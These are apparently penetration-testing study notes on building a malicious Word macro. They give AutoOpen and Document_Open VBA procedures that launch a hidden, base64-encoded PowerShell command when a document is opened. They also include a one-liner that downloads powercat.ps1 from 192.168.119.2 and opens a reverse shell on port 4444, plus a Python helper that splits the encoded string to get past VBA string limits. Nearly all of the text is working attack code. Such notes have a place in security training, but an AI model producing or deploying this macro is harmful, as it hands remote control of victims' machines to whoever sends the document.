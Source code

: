 need to add autoopen and document_open procedures to snsure run when opened

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

can use powercat to get reverse shell
Dim -> var declaration
note that strings can only be 255 chars

powercat download and reverse shell command pre-base64 encoding

```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

python script to split up encoded poewrcat string

```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

```

finally we can finish our macro

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```